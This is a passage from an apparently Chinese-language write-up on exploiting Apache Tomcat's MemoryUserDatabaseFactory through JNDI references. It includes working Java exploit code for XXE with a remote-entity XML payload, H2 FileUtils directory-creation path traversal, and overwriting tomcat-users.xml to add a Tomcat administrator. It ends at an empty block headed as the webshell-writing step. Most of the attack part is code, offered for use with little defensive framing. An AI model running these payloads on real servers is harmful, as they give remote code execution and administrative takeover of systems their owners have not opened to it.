 ```java  
```  
## 0x02 XXE&amp;RCE  
在`org.apache.catalina.users.MemoryUserDatabaseFactory`类中存在漏洞，  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202505061836545.png)  
这里会先实例化一个`MemoryUserDatabase`对象然后从 Reference 中取出 pathname、readonly 这两个最主要的参数并调用 setter 方法赋值。  
赋值完成会先调用`open()`方法，如果readonly=false那就会调用`save()`方法。  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202505061837026.png)  
#### XXE  
其中会根据`pathname`去发起本地或者远程文件访问，并使用`commons-digester`解析返回的`XML`内容，所以这里可以造成XXE漏洞。  
```java  
private static ResourceRef tomcatMemoryXXE(){    
    ResourceRef ref = new ResourceRef(&#34;org.apache.catalina.UserDatabase&#34;, null, &#34;&#34;, &#34;&#34;, true, &#34;org.apache.catalina.users.MemoryUserDatabaseFactory&#34;, null);    
    ref.add(new StringRefAddr(&#34;pathname&#34;, &#34;http://127.0.0.1:8888/exp.xml&#34;));    
    return ref;    
}  
```  
`exp.xml`  
```xml  
&lt;?xml version=&#34;1.0&#34;?&gt;  
&lt;!DOCTYPE root [  
&lt;!ENTITY % remote SYSTEM &#34;http://127.0.0.1:8888/hello&#34;&gt;  
%remote;]&gt;  
&lt;root/&gt;  
```  
#### RCE  
具体就是利用上面提到的`save()`方法，直接给出`exp`  
```java  
private static ResourceRef tomcatMkdirFrist() {  
    ResourceRef ref = new ResourceRef(&#34;org.h2.store.fs.FileUtils&#34;, null, &#34;&#34;, &#34;&#34;,  
            true, &#34;org.apache.naming.factory.BeanFactory&#34;, null);  
    ref.add(new StringRefAddr(&#34;forceString&#34;, &#34;a=createDirectory&#34;));  
    ref.add(new StringRefAddr(&#34;a&#34;, &#34;../http:&#34;));  
    return ref;  
}  
private static ResourceRef tomcatMkdirLast() {  
    ResourceRef ref = new ResourceRef(&#34;org.h2.store.fs.FileUtils&#34;, null, &#34;&#34;, &#34;&#34;,  
            true, &#34;org.apache.naming.factory.BeanFactory&#34;, null);  
    ref.add(new StringRefAddr(&#34;forceString&#34;, &#34;a=createDirectory&#34;));  
    ref.add(new StringRefAddr(&#34;a&#34;, &#34;../http:/127.0.0.1:8888&#34;));  
    return ref;  
}  
```  
##### 创建`Tomcat`管理员  
```java  
private static ResourceRef tomcatManagerAdd() {  
    ResourceRef ref = new ResourceRef(&#34;org.apache.catalina.UserDatabase&#34;, null, &#34;&#34;, &#34;&#34;,  
            true, &#34;org.apache.catalina.users.MemoryUserDatabaseFactory&#34;, null);  
    ref.add(new StringRefAddr(&#34;pathname&#34;, &#34;http://127.0.0.1:8888/../../conf/tomcat-users.xml&#34;));  
    ref.add(new StringRefAddr(&#34;readonly&#34;, &#34;false&#34;));  
    return ref;  
}  
```  
##### 写webshell  
`exp.xml`  
当访问`http://127.0.0.1:8888/webapps/ROOT/test.jsp`能返回这样一段XML  
```xml  
```